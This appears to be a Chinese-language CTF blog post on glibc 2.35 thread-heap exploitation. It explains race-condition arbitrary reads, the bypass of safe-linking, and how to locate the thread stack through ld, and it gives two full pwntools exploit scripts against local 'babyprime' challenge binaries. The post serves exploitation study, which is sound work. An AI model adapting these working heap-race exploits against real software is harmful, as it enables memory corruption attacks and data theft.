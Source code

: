 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35 thread-heap: arenas 利用手法"
author: wsxk
date: 2025-5-20
comments: true
---
```


- [0. glibc 2.35与 glibc 2.31的区别](#0-glibc-235与-glibc-231的区别)
- [1. arbitrary read](#1-arbitrary-read)
  - [1.1 高版本内核泄露thread stack的方法](#11-高版本内核泄露thread-stack的方法)
- [2. arbitrary write](#2-arbitrary-write)

`thread heap的利用手法多数都是依靠race condition来获取任意地址读写的能力，辅以一些常见的tips即可完成利用`<br>
**任意地址读写的说法其实也适用于其他的利用手法,从这个角度来思考安全问题是很有意义的**<br>
# 0. glibc 2.35与 glibc 2.31的区别<br>
最主要的区别在于移除了`free_hook`等之前非常好用的符号,已经`safe-linking`机制:<br>
参考这篇文章：[https://wsxk.github.io/safelinking/](https://wsxk.github.io/safelinking/)<br>
另外在调试glibc2.35可以发现：glibc2.35中的`tcache->key`部分也发生了修改，不再是`tcache_perthread_struct`了，而是真的随机的值.如下图所示：<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250518105647.png)
总之，`tcache->key`部分已经没有了价值，但是`tcache->next`部分非常有用。<br>

# 1. arbitrary read<br>
**利用arbitrary read可以任意读取.bss段（没有添加PIE）、Thread heap、Thread stack(主要利用第一个线程的栈空间与libc没有间隔)中的数据（前提是知道地址）**<br>
race的利用难度主要在于调试（个人理解）<br>

```python
from pwn import *
import os

#binary_path = "/challenge/babyprime_level1.1"
binary_path = './babyprime_level1.1'
p = process(binary_path)
r1 = remote("127.0.0.1",1337)
r2 = remote("127.0.0.1",1337)

idx = 0
def leak_pthread_struct_addr(r1,r2):
    global idx
    while True:
        if os.fork() == 0:
            for _ in range(100000):
                r1.sendline(b"malloc %d scanf %d AAAAAAAABBBBBBBB free %d"%(idx,idx,idx))
            os.kill(os.getpid(),9)
        for _ in range(100000):
            r2.sendline(b"printf %d" % idx)
        os.wait()
        r1.clean()
        output = r2.clean()
        try:
            result = set(output.split(b"\n"))
            print(result)
            #pause()
            leak  = next(x for x in result if ((b"\x07" in x) and len(x)>=17))
            print(leak)
            leak = u64(leak[9:17].ljust(8,b"\x00"))
            if leak & 0xff != 0:
                print("leak error, try again!!!")
                continue
            break 
        except Exception as e:
            print(f"error:{e}")
            print(f"leak pthread_struct_addr try again!!!")
    idx += 1
    return leak

def arbitrary_read(r1,r2,addr):
    global idx
    r1.clean()
    r2.clean()
    r1.sendline(b"malloc %d malloc %d free %d" %(idx,idx+1,idx+1))
    while True:
        if os.fork() == 0:
            r1.sendline(b"free %d" %(idx))
            os.kill(os.getpid(),9)
        r2.sendline((b"scanf %d "% (idx) + p64(addr)+b"BBBBBBBB\n")*2000)
        os.wait()
        r1.sendline(b"malloc %d printf %d"%(idx,idx))
        r1.recvuntil(b"MESSAGE: ")
        output = r1.recvline().strip(b"\n")
        target = p64(addr).split(b"\x00")[0]
        if output == target:
            break
    r1.sendline(b"malloc %d"%(idx+1))
    r1.clean()
    r1.sendline(b"printf %d"% (idx+1))
    r1.recvuntil(b"MESSAGE: ")
    value = u64(r1.recvline().strip(b"\n").ljust(8,b"\x00"))
    return value

# gdb.attach(p,"continue\n")
# pause()
# r1.sendline(b"malloc 1")
# r1.sendline(b"scanf 1 AAAAAAAABBBBBBBB free 1")
# r2.sendline(b"malloc 2")
# r2.sendline(b"scanf 2 CCCCCCCCDDDDDDDD free 2")
# pause()
pthread_struct_addr = leak_pthread_struct_addr(r1,r2)<< 12
log.success(f"pthread_struct_addr: {hex(pthread_struct_addr)}")
secret = arbitrary_read(r1,r2,(pthread_struct_addr>>12)^0x405460)
log.success(f"secret: {hex(secret)}")
r1.sendline(b"send_flag")
r1.recvuntil(b"Secret: ")
r1.sendline(p64(secret))
output = r1.clean()
print(output)
p.interactive()
```
## 1.1 高版本内核泄露thread stack的方法<br>
时代在变化！高版本内核（具体到多少不清楚）在创建新线程时，第一个线程的`thread stack`空间不再紧邻`libc`，我们需要其他的方法泄露`thread stack`<br>
**核心思路是得知libc的地址后，可以在ld中搜索指向thread stack内存映射区域的指针，ld和libc的内存映射是相邻的！！！**<br>
`p2p  search_mmap_region target_mmap_region`<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250524235643.png)
这里给个例子：<br>
```python
import os
from pwn import *

binary_path = "/challenge/babyprime_level3.0"
#binary_path = './babyprime_level3.0'
p = process(binary_path)
r1 = remote("127.0.0.1",1337)
r2 = remote("127.0.0.1",1337)

idx = 0
def leak_pthread_addr(r1,r2):
    global idx
    while True:
        if os.fork() == 0:
            for _ in range(10000):
                r1.sendline(b"malloc %d scanf %d aaaaaaaabbbbbbbb free %d"%(idx,idx,idx))
            os.kill(os.getpid(),9)
        for _ in range(10000):
            r2.sendline(b"printf %d"%(idx))
        os.wait()
        r1.clean()
        try:
            output = r2.clean()
            output = set(output.split(b'\n'))
            print(output)
            leak = next(x for x in output if ((b"\x07" in x) and len(x)>=17))
            print(leak)
            leak = u64(leak[9:17])
            break
        except Exception as e:
            print(f"error: {e}")
            print("try leak pthread_addr again")
    idx += 1
    return leak
# 相比之前能快速提高命中率！
def arbitrary_read(r1,r2,addr):
    global idx
    r1.clean()
    r2.clean()
    r1.sendline(b"malloc %d malloc %d free %d free %d"%(idx,idx+1,idx,idx+1))
    while True: 
        if os.fork() == 0:
            for _ in range(2000):
                r1.sendline(b"malloc %d free %d"%(idx,idx))
            os.kill(os.getpid(),9)
        r2.sendline((b"scanf %d "%(idx) +p64(addr)+b"\n")*2000)
        os.wait()
        r1.sendline(b"malloc %d"% idx)
        r1.sendline(b"printf %d"% idx)
        r1.recvuntil(b"MESSAGE: ")
        output = r1.recvline().strip(b"\n")
        #print("output:",output)
        target = p64(addr).split(b"\x00")[0]
        if output == target:
            break
    r1.sendline(b"malloc %d"%(idx+1))
    r1.sendline(b"printf %d" %(idx+1))
    r1.recvuntil(b"MESSAGE: ")
    output = r1.recvline().strip(b"\n")
    idx += 2
    return output


gdb.attach(p,"continue\n")
pause()
pthread_addr = leak_pthread_addr(r1,r2)<<12
log.success(f"pthread_addr: {hex(pthread_addr)}")
libc_addr_ptr = pthread_addr + 0x8a0

libc_addr = arbitrary_read(r1,r2,libc_addr_ptr^((pthread_addr+0x1000)>>12))
log.success(f"libc_addr: {libc_addr}")
libc_addr = u64(libc_addr.ljust(8,b"\x00"))
log.success(f"libc_addr: {hex(libc_addr)}")
ld_addr = libc_addr + 0x10380
log.success(f"ld_base: {hex(ld_addr)}")
pthread_stack_ptr = ld_addr + 0x3b0b0
log.success(f"pthread_stack_ptr: {hex(pthread_stack_ptr)}")

thread_stack_addr = arbitrary_read(r1,r2, pthread_stack_ptr^((pthread_addr+0x1000)>>12))
thread_stack_addr = u64(thread_stack_addr.ljust(8,b"\x00"))-0x28f0
log.success(f"thread_stack_addr: {hex(thread_stack_addr)}")
#context.log_level='debug'
secret = arbitrary_read(r1,r2,thread_stack_addr^((pthread_addr+0x2000)>>12))
log.success(f"secret: {secret}")

r1.clean()
r1.sendline(b"send_flag")
r1.recvuntil(b"Secret: ")
r1.sendline(secret)
output = r1.clean()
print(output)
p.interactive()
```

# 2. arbitrary write<br>




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>